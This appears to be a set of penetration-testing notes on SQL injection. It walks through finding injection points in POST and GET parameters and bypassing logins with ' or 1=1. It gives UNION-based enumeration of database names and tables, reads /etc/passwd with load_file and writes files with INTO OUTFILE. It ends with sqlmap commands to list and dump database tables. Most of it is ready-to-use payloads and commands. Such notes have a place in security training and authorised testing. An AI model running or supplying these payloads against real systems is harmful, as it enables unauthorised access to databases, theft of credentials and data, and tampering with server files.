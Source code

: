 1. `show databases;`
2. `use [database];`
3. `show tables;`

### Discovering SQL Injections with Form Submissions (POST)

1. Whenever you see an input box try to break it, try using AND, ORDER BY or '.
2. Look for subtle changes.
3. Enter correct info then ' then use AND, use a # as a comment to terminate early.

An example of this is a user/password input box(s) may potentially be making a SQL query like `SELECT * from accounts where user='$USER_INPUT_BOX_VALUE' and password='$PASSWORD_INPUT_BOX_VALUE'`. We could run an injection on this query by setting our password as `123456' AND 1=1#`. This would hopefully execute and confirm that we could inject any SQL query into the webserver database (such as show all passwords).

### Bypassing Logins via Injections

Another neat use would be to inject the SQL query such that the query ends up as `SELECT * from accounts where user='admin' and password='wrong_password' or 1=1`, this would potentially log us in as admin without knowing the password at all as the second case in the and statement will be True if the query evaluates 1 to be equal to 1.

### Discovering SQL Injections in Data Retrieval (GET)

1. Always try to inject things in the php scripts (in the address bar it will look like index.php&username=xxxx&password=xxxxx)
2. Use ORDER BY after a field eg. `index.php&username=xxxx' ORDER BY 1 #&password=xxxxx` Ensure to use the URL encoding for symbols ie. # = %23
3. Order By column 100000 will return an error keep doing order by 1,2,3,4,5 and when you get an error you know the db has that amount of columns
4. Use a union
5. eg. `index.php&username=xxxx' union 1,2,3,4,5 #&password=xxxxx`
6. Swap the numbers with other stuff ie. `1,database(),user(),version(),5`
7. `union select 1, table_name, null, null,5 from information_schema.tables`

### Read and Writing Files on the Server via SQL.

We can also use SQL injections to read/write files that located on the target computer as well.

#### Reading

` union select null, load_file('/etc/passwd'), null, null,null `

#### Writing

`union select null, 'example example', null, null,null into outfile '[path]'`

### Use SQLmap to do the Above and More

1. `sqlmap --help`
2. `sqlmap -u "[target_url]"`
3. `sqlmap -u "[target_url]" --dbs`
    - to get the databases
4. `sqlmap -u "[target_url]" --current-user`
    - to get user
5. `sqlmap -u "[target_url]" --current-db`
    - current database
6. `sqlmap -u "[target_url]" --tables -D [database]`
    - gets the tables in the -D database
7. `sqlmap -u "[target_url]" --columns -T [table_name] -D [database]`
    - gets columns in the tables of the database
8. `sqlmap -u "[target_url]" -T [table_name] -D [database] --dump`
    - Get all the data in the table of the database

